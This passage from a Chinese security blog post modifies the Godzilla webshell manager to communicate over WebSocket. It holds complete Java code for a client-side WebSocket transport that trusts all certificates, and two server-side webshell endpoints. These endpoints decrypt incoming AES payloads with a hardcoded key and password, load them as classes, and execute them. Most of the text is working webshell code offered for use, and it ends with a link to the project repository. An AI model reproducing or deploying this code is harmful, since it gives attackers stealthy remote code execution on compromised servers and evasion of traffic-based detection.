        } else {  
            try {  
                return method.invoke(obj, param);  
            } catch (IllegalAccessException e) {  
                throw new RuntimeException(e.getMessage());  
            }  
        }  
    }  
}
```

访问/cmd触发这个Servlet中的代码，然后连接WebSocket发送命令，没问题。



## 工具二开

由于最近接触哥斯拉和jmg较多，打算把WebSocket整合进去，这里思考了一下还是先把哥斯拉的弄出来。jmg的话比较简单，可以自行思考完成。

### 哥斯拉

哥斯拉的二开可以参考：[[二开]\_哥斯拉-PHP流量特征修改](https://mp.weixin.qq.com/s/O07OStS2v8XrMCdi6ROGLQ)

想要在加密器选项里面有我们新增类型的加密器，需要在jar包里新增一个类，有这个class文件就行，里面有没有内容无所谓。可以使用Jar\_Editor插件。然后再从我们src目录下用CryptionAnnotation注解编写这个加密器。



哥斯拉的一个逻辑我有简单写过，但是我正在写这篇的时候还没发，如果到时候忘记贴链接了可以在博客里面找找。

哥斯拉的shell初始化逻辑是，直接发送一个很大的马。让服务器上的webshell把大马吃到并加载到内存中。然后会有自己构造的一个通信方式与这个大马交流，这个构造在哥斯拉分析文章也抽离出来了，感兴趣可以看看。



#### WebSocket通信类

这个大马其实无需改造，我们小马用hashmap来存储加载的大马和传输的指令即可。至于通信方式手搓了一个：

```
public class WebSocket {  
    private static final HostnameVerifier hostnameVerifier = new TrustAnyHostnameVerifier();  
    private final Proxy proxy;  
    private final ShellEntity shellContext;  
    private CookieManager cookieManager;  
    private URI uri;  
    public String requestMethod = "POST";  
    private boolean connected = false;  
    private Socket socket = null;  
    private OutputStream outputStream = null;  
    private InputStream inputStream = null;  
  
    public WebSocket(ShellEntity shellContext) {  
        this.shellContext = shellContext;  
        this.proxy = ApplicationContext.getProxy(this.shellContext);  
    }  
  
    public boolean Handshake() {  
        try {  
            URI uri = new URI(shellContext.getUrl());  
            Proxy proxy = this.proxy;  
            BufferedReader reader = null;  
            BufferedWriter writer = null;  
  
            try {  
                if (proxy == null) {  
                    proxy = Proxy.NO_PROXY;  
                }  
                this.socket = new Socket(proxy);  
  
                socket.connect(new InetSocketAddress(uri.getHost(), getPort(uri)), shellContext.getConnTimeout());  
                socket.setSoTimeout(shellContext.getReadTimeout());  
  
                this.inputStream = this.socket.getInputStream();  
                this.outputStream = this.socket.getOutputStream();  
  
                reader = new BufferedReader(new InputStreamReader(this.inputStream));  
                writer = new BufferedWriter(new OutputStreamWriter(this.outputStream));  
  
                String key = generateWebSocketKey(this.shellContext.getPassword()+this.shellContext.getSecretKey());  
                writer.write("GET " + uri.getRawPath() + (uri.getQuery() != null ? "?" + uri.getQuery() : "") + " HTTP/1.1\r
");  
                writer.write("Host: " + uri.getHost() + ":" + getPort(uri) + "\r
");  
                writer.write("Upgrade: websocket\r
");  
                writer.write("Connection: Upgrade\r
");  
                writer.write("Sec-WebSocket-Key: " + key + "\r
");  
                writer.write("Sec-WebSocket-Version: 13\r
");  
  
                writer.write("\r
");  
                writer.flush();  
  
                String statusLine = reader.readLine();  
                if (statusLine == null || !statusLine.startsWith("HTTP/1.1 101")) {  
                    throw new IOException("WebSocket handshake failed: " + statusLine);  
                }  
  
                Map<String, List<String>> responseHeaders = new HashMap<>();  
                String line;  
                while ((line = reader.readLine()) != null && !line.isEmpty()) {  
                    int idx = line.indexOf(':');  
                    if (idx > 0) {  
                        String name = line.substring(0, idx).trim();  
                        String value = line.substring(idx + 1).trim();  
                        responseHeaders.computeIfAbsent(name, k -> new ArrayList<>()).add(value);  
                    }  
                }  
  
                this.connected = true;  
                return true;  
            } catch (Exception e) {  
                Log.error("WebSocket handshake error: " + e.getMessage());  
                disconnect();  
                return false;  
            } finally {  
//                    if (reader != null) reader.close();  
//                    if (writer != null) writer.close();  
            }  
        } catch (Exception e) {  
            throw new RuntimeException(e);  
        }  
  
    }  
  
  
    public WebSocketResponse SendWebSocketConn(String urlString, String method, Map<String, String> header, byte[] requestData, int connTimeOut, int readTimeOut, Proxy proxy) throws Exception {  
        if (!connected || this.socket == null || !this.socket.isConnected()) {  
            throw new IllegalStateException("WebSocket not connected");  
        }  
  
        try {  
            sendWebSocketFrame(requestData);  
            byte[] response = readWebSocketFrame();  
            return new WebSocketResponse(this.shellContext, 200, null, response);  
        } catch (IOException e) {  
            Log.error("WebSocket send error: " + e.getMessage());  
            disconnect();  
            return new WebSocketResponse(this.shellContext, 500, null, ("Error: " + e.getMessage()).getBytes());  
        }  
    }  
  
    public WebSocketResponse sendWebSocketResponse(byte[] requestData) {  
        Map<String, String> header = this.shellContext.getHeaders();  
        int connTimeOut = this.shellContext.getConnTimeout();  
        int readTimeOut = this.shellContext.getReadTimeout();  
  
        requestData = this.shellContext.getCryptionModule().encode(requestData);  
        String left = this.shellContext.getReqLeft();  
        String right = this.shellContext.getReqRight();  
        if (this.shellContext.isSendLRReqData()) {  
            byte[] leftData = left.getBytes();  
            byte[] rightData = right.getBytes();  
            requestData = (byte[]) functions.concatArrays(functions.concatArrays(leftData, 0, (leftData.length > 0 ? leftData.length : 1) - 1, requestData, 0, requestData.length - 1), 0, leftData.length + requestData.length - 1, rightData, 0, (rightData.length > 0 ? rightData.length : 1) - 1);  
        }  
        try {  
            return this.SendWebSocketConn(this.shellContext.getUrl(), this.requestMethod, header, requestData, connTimeOut, readTimeOut, this.proxy);  
        } catch (Exception e) {  
            throw new RuntimeException(e);  
        }  
    }  
  
    private void sendWebSocketFrame(byte[] payload) throws IOException {  
        byte[] frame = new byte[10 + payload.length];  // 最大头长度 10        int offset = 0;  
  
        if (this.shellContext.getCryption().contains("BASE64")) {  
            frame[offset++] = (byte) 0x81;  
        }  
        if (this.shellContext.getCryption().contains("RAW")) {  
            frame[offset++] = (byte) 0x82;  
        }  
  
        int length = payload.length;  
        boolean mask = true;  
  
        if (length <= 125) {  
            frame[offset++] = (byte) ((mask ? 0x80 : 0) | length);  
        } else if (length < 65536) {  
            frame[offset++] = (byte) ((mask ? 0x80 : 0) | 126);  
            frame[offset++] = (byte) (length >> 8);  
            frame[offset++] = (byte) length;  
        } else {  
            frame[offset++] = (byte) ((mask ? 0x80 : 0) | 127);  
            for (int i = 56; i >= 0; i -= 8) {  
                frame[offset++] = (byte) (length >> i);  
            }  
        }  
  
        byte[] maskKey = new byte[4];  
        new SecureRandom().nextBytes(maskKey);  
        System.arraycopy(maskKey, 0, frame, offset, 4);  
        offset += 4;  
  
        for (int i = 0; i < length; i++) {  
            frame[offset + i] = (byte) (payload[i] ^ maskKey[i % 4]);  
        }  
  
        offset += length;  
  
        outputStream.write(frame, 0, offset);  
        outputStream.flush();  
    }  
  
    private byte[] readWebSocketFrame() throws IOException {  
        ByteArrayOutputStream frameBuffer = new ByteArrayOutputStream();  
        byte[] buffer = new byte[65536];  
  
        int totalRead = 0;  
        while (frameBuffer.size() < 2 && totalRead != -1) {  
            totalRead = inputStream.read(buffer);  
            if (totalRead > 0) frameBuffer.write(buffer, 0, totalRead);  
        }  
  
        if (frameBuffer.size() < 2) return new byte[0];  
  
        byte[] frameHeader = frameBuffer.toByteArray();  
        boolean mask = (frameHeader[1] & 0x80) != 0;  
        int payloadLength = frameHeader[1] & 0x7F;  
  
        int lengthBytes = 0;  
        if (payloadLength == 126) lengthBytes = 2;  
        else if (payloadLength == 127) lengthBytes = 8;  
  
        int maskKeyOffset = 2 + lengthBytes;  
        int totalNeedRead = maskKeyOffset + (mask ? 4 : 0);  
  
        while (frameBuffer.size() < totalNeedRead && totalRead != -1) {  
            totalRead = inputStream.read(buffer);  
            if (totalRead > 0) frameBuffer.write(buffer, 0, totalRead);  
        }  
  
        if (frameBuffer.size() < totalNeedRead) return new byte[0];  
  
        if (payloadLength == 126) {  
            payloadLength = ((frameHeader[2] & 0xFF) << 8) | (frameHeader[3] & 0xFF);  
        } else if (payloadLength == 127) {  
            payloadLength = ((frameHeader[6] & 0xFF) << 24)  
                    | ((frameHeader[7] & 0xFF) << 16)  
                    | ((frameHeader[8] & 0xFF) << 8)  
                    | (frameHeader[9] & 0xFF);  
        }  
  
        int dataStart = maskKeyOffset + (mask ? 4 : 0);  
        int dataLength = payloadLength;  
        int totalDataRead = frameBuffer.size() - dataStart;  
  
        while (totalDataRead < dataLength && totalRead != -1) {  
            totalRead = inputStream.read(buffer);  
            if (totalRead > 0) {  
                frameBuffer.write(buffer, 0, totalRead);  
                totalDataRead += totalRead;  
            }  
        }  
  
        byte[] fullFrame = frameBuffer.toByteArray();  
        byte[] data = new byte[dataLength];  
        System.arraycopy(fullFrame, dataStart, data, 0, dataLength);  
  
        if (mask) {  
            byte[] maskKey = new byte[4];  
            System.arraycopy(fullFrame, maskKeyOffset, maskKey, 0, 4);  
            for (int i = 0; i < data.length; i++) {  
                data[i] ^= maskKey[i % 4];  
            }  
        }  
  
        return data;  
    }  
  
    private static void trustAllHttpsCertificates() {  
        try {  
            TrustManager[] trustAllCerts = new TrustManager[1];  
            miTM tm = new miTM();  
            trustAllCerts[0] = tm;  
            SSLContext sc = SSLContext.getInstance("SSL");  
            sc.init(null, trustAllCerts, new SecureRandom());  
            HttpsURLConnection.setDefaultSSLSocketFactory(sc.getSocketFactory());  
            SSLContext sc2 = SSLContext.getInstance("TLS");  
            sc2.init(null, trustAllCerts, new SecureRandom());  
            HttpsURLConnection.setDefaultSSLSocketFactory(sc2.getSocketFactory());  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
  
    public synchronized URI getUri() {  
        if (this.uri == null) {  
            try {  
                this.uri = URI.create(this.shellContext.getUrl());  
            } catch (Exception e) {  
                e.printStackTrace();  
            }  
        }  
        return this.uri;  
    }  
  
    private int getPort(URI uri) {  
        int port = uri.getPort();  
        if (port == -1) {  
            if ("wss".equalsIgnoreCase(uri.getScheme()) || "https".equalsIgnoreCase(uri.getScheme())) {  
                return 443;  
            } else {  
                return 80;  
            }  
        }  
        return port;  
    }  
  
    public void disconnect() {  
        connected = false;  
        try {  
            if (outputStream != null) outputStream.close();  
            if (inputStream != null) inputStream.close();  
            if (socket != null && !socket.isClosed()) socket.close();  
        } catch (IOException e) {  
            Log.error("WebSocket disconnect error: " + e.getMessage());  
        }  
    }  
  
    private String generateWebSocketKey(String customKey) {  
        byte[] nonce;  
  
        if (customKey != null && !customKey.isEmpty()) {  
            try {  
                MessageDigest md = MessageDigest.getInstance("MD5");  
                nonce = md.digest(customKey.getBytes(StandardCharsets.UTF_8));  
            } catch (NoSuchAlgorithmException e) {  
                throw new RuntimeException("MD5 algorithm not found", e);  
            }  
        } else {  
            nonce = new byte[16];  
            new SecureRandom().nextBytes(nonce);  
        }  
  
        return Base64.getEncoder().withoutPadding().encodeToString(nonce);  
    }  
  
  
    public synchronized CookieManager getCookieManager() {  
        if (this.cookieManager == null) {  
            this.cookieManager = new CookieManager();  
            try {  
                String cookieStr = this.shellContext.getHeaders().get("Cookie");  
                if (cookieStr == null) {  
                    cookieStr = this.shellContext.getHeaders().get("cookie");  
                }  
                if (cookieStr != null) {  
                    String[] cookies;  
                    for (String cookieStr2 : cookies = cookieStr.split(";")) {  
                        String[] cookieAtt = cookieStr2.split("=");  
                        if (cookieAtt.length != 2) continue;  
                        HttpCookie httpCookie = new HttpCookie(cookieAtt[0], cookieAtt[1]);  
                        this.cookieManager.getCookieStore().add(this.getUri(), httpCookie);  
                    }  
                }  
            } catch (Exception e) {  
                e.printStackTrace();  
            }  
        }  
        return this.cookieManager;  
    }  
  
    static {  
        WebSocket.trustAllHttpsCertificates();  
    }  
  
    public static class TrustAnyHostnameVerifier implements HostnameVerifier {  
        @Override  
        public boolean verify(String hostname, SSLSession session) {  
            return true;  
        }  
    }  
  
    private static class miTM extends X509ExtendedTrustManager implements TrustManager, X509TrustManager {  
        ......  
    }  
}
```

```
public class WebSocketResponse {
    private final int responseCode;
    private final Map<String, List<String>> headers;
    private byte[] result;
    private ShellEntity shellEntity;

    public WebSocketResponse(ShellEntity shellEntity, int responseCode, Map<String, List<String>> headers, byte[] result) {
        this.shellEntity = shellEntity;
        this.responseCode = responseCode;
        this.headers = headers;
        this.result = Decrypte(result);
    }

    public int getResponseCode() {
        return responseCode;
    }

    public Map<String, List<String>> getHeaders() {
        return headers;
    }

    public byte[] getresult() {
        return result;
    }

    public byte[] Decrypte(byte[] Ciphertext) {
        try {
            byte[] decode = this.shellEntity.getCryptionModule().decode(Ciphertext);
            return decode;
        } catch (Exception e) {
            return new byte[0];
        }
    }
}

```

至于哥斯拉其他需要修改的地方可以自行寻找调用http的地方，然后平行增加个WebSocket的调用就行了。比较简单。

那JavaWebSocket的初始化部分就可以改成如下，增加一个握手的过程即可，然后用webbsocket的方法去发送大马。



#### 小马

至于我们应该放在服务端的小马可以写成如下，这只是个简单的demo，可以进行改进。

##### Base64类型

```
public class Base64WebSocket extends Endpoint implements MessageHandler.Whole<String> {  
  
    private Session session;  
    public static Map<String, Object> store = new HashMap();  
    String xc = "082e34fbef497bb1"; // key  
    String pass = "cmisl";  
    public String headerName = "cmisl";  
    public String headerValue = "cmisl";  
  
    String md5 = md5(pass + xc);  
  
    private static Class defineClass(byte[] classbytes) throws Exception {  
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());  
        Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);  
        method.setAccessible(true);  
        return (Class) method.invoke(urlClassLoader, classbytes, 0, classbytes.length);  
    }  
  
    public byte[] x(byte[] s, boolean m) {  
        try {  
            Cipher c = Cipher.getInstance("AES");  
            c.init(m ? 1 : 2, new SecretKeySpec(xc.getBytes(), "AES"));  
            return c.doFinal(s);  
        } catch (Exception e) {  
            return null;  
        }  
    }  
  
    @Override  
    public void onOpen(Session session, EndpointConfig config) {  
        this.session = session;  
        System.out.println("onOpen method is invoked");  
        this.session.setMaxBinaryMessageBufferSize(1024 * 1024);  
        this.session.setMaxTextMessageBufferSize(1024 * 1024);  
        session.addMessageHandler(this); // 注册消息处理器  
    }  
  
    @Override  
    public void onMessage(String message) {  
        try {  
            System.out.println("onMessage method is invoked");  
            String[] split = message.split("=");  
            StringBuilder result = new StringBuilder();  
  
            if (split[0] != null && split[0].equals(pass)) {  
                byte[] data = base64Decode(URLDecoder.decode(split[1], "UTF-8"));  
                data = x(data, false);  
  
                if (store.get("payload") == null) {  
                    store.put("payload", defineClass(data));  
                } else {  
                    store.put("parameters", data);  
                    ByteArrayOutputStream arrOut = new ByteArrayOutputStream();  
                    Object f = ((Class<?>) store.get("payload")).newInstance();  
                    f.equals(arrOut);  
                    f.equals(data);  
                    result.append(md5.substring(0, 16));  
                    f.toString();  
                    result.append(base64Encode(x(arrOut.toByteArray(), true)));  
                    result.append(md5.substring(16));  
                }  
                session.getBasicRemote().sendText(result.toString());  
            } else {  
            }  
        } catch (Exception e) {  
        }  
    }  
  
    @Override  
    public void onClose(Session session, javax.websocket.CloseReason closeReason) {  
        System.out.println("onclose method is invoked"");  
    }  
  
    @Override  
    public void onError(Session session, Throwable thr) {  
        System.out.println("onerror method is invoked"");  
    }  
  
    public static String md5(String s) {  
        String ret = null;  
        try {  
            MessageDigest m;  
            m = MessageDigest.getInstance("MD5");  
            m.update(s.getBytes(), 0, s.length());  
            ret = new BigInteger(1, m.digest()).toString(16).toUpperCase();  
        } catch (Exception e) {  
        }  
        return ret;  
    }  
  
    public static String base64Encode(byte[] bs) throws Exception {  
        Class base64;  
        String value = null;  
        try {  
            base64 = Class.forName("java.util.Base64");  
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);  
            value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});  
        } catch (Exception e) {  
            try {  
                base64 = Class.forName("sun.misc.BASE64Encoder");  
                Object Encoder = base64.newInstance();  
                value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});  
            } catch (Exception e2) {  
            }  
        }  
        return value;  
    }  
  
    public static byte[] base64Decode(String bs) throws Exception {  
        Class base64;  
        byte[] value = null;  
        try {  
            base64 = Class.forName("java.util.Base64");  
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);  
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});  
        } catch (Exception e) {  
            try {  
                base64 = Class.forName("sun.misc.BASE64Decoder");  
                Object decoder = base64.newInstance();  
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});  
            } catch (Exception e2) {  
            }  
        }  
        return value;  
    }  
  
  
}
```

##### Raw类型

```
public class RawWebSocket extends Endpoint implements MessageHandler.Whole<byte[]> {  
  
    private Session session;  
    public static Map<String, Object> store = new HashMap();  
    String xc = "082e34fbef497bb1"; // key  
    String pass = "cmisl";  
    public String headerName = "cmisl";  
    public String headerValue = "cmisl";  
  
    String md5 = md5(pass + xc);  
  
    private static Class defineClass(byte[] classbytes) throws Exception {  
        URLClassLoader urlClassLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());  
        Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, int.class, int.class);  
        method.setAccessible(true);  
        return (Class) method.invoke(urlClassLoader, classbytes, 0, classbytes.length);  
    }  
  
    public byte[] x(byte[] s, boolean m) {  
        try {  
            Cipher c = Cipher.getInstance("AES");  
            c.init(m ? 1 : 2, new SecretKeySpec(xc.getBytes(), "AES"));  
            return c.doFinal(s);  
        } catch (Exception e) {  
            return null;  
        }  
    }  
  
    @Override  
    public void onOpen(Session session, EndpointConfig config) {  
        this.session = session;  
        System.out.println("onOpen method is invoked raw");  
        this.session.setMaxBinaryMessageBufferSize(1024 * 1024);  
        this.session.setMaxTextMessageBufferSize(1024 * 1024);  
        session.addMessageHandler(this); // 注册消息处理器  
    }  
  
    @Override  
    public void onMessage(byte[] message) {  
        try {  
            System.out.println("onMessage method is invoked");  
            ByteArrayOutputStream result = new ByteArrayOutputStream();  
  
            byte[] data = message;  
            data = x(data, false);  
  
            if (store.get("payload") == null) {  
                store.put("payload", defineClass(data));  
            } else {  
                store.put("parameters", data);  
                ByteArrayOutputStream arrOut = new ByteArrayOutputStream();  
                Object f = ((Class<?>) store.get("payload")).newInstance();  
                f.equals(arrOut);  
                f.equals(data);  
                f.toString();  
                result.write(x(arrOut.toByteArray(), true));  
            }  
            session.getBasicRemote().sendBinary(ByteBuffer.wrap(result.toByteArray()));  
  
        } catch (Exception e) {  
        }  
    }  
  
    @Override  
    public void onClose(Session session, javax.websocket.CloseReason closeReason) {  
        System.out.println("onclose method is invoked"");  
    }  
  
    @Override  
    public void onError(Session session, Throwable thr) {  
        System.out.println("onerror method is invoked"");  
    }  
  
    public static String md5(String s) {  
        String ret = null;  
        try {  
            MessageDigest m;  
            m = MessageDigest.getInstance("MD5");  
            m.update(s.getBytes(), 0, s.length());  
            ret = new BigInteger(1, m.digest()).toString(16).toUpperCase();  
        } catch (Exception e) {  
        }  
        return ret;  
    }  
  
    public static String base64Encode(byte[] bs) throws Exception {  
        Class base64;  
        String value = null;  
        try {  
            base64 = Class.forName("java.util.Base64");  
            Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);  
            value = (String) Encoder.getClass().getMethod("encodeToString", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});  
        } catch (Exception e) {  
            try {  
                base64 = Class.forName("sun.misc.BASE64Encoder");  
                Object Encoder = base64.newInstance();  
                value = (String) Encoder.getClass().getMethod("encode", new Class[]{byte[].class}).invoke(Encoder, new Object[]{bs});  
            } catch (Exception e2) {  
            }  
        }  
        return value;  
    }  
  
    public static byte[] base64Decode(String bs) throws Exception {  
        Class base64;  
        byte[] value = null;  
        try {  
            base64 = Class.forName("java.util.Base64");  
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);  
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});  
        } catch (Exception e) {  
            try {  
                base64 = Class.forName("sun.misc.BASE64Decoder");  
                Object decoder = base64.newInstance();  
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});  
            } catch (Exception e2) {  
            }  
        }  
        return value;  
    }  
}
```

#### 测试

基本没问题，除了进入shell会有一会延迟，这个是为了确保获取基础信息时能读到完整数据，避免只读取一部分数据从无法解析基础信息进而无法进入shell。







最后项目地址：[Cmisl/WebSocketGodZilla: 实现了WebSocket通信的哥斯拉webshell管理器](https://github.com/Cmisl/WebSocketGodZilla)
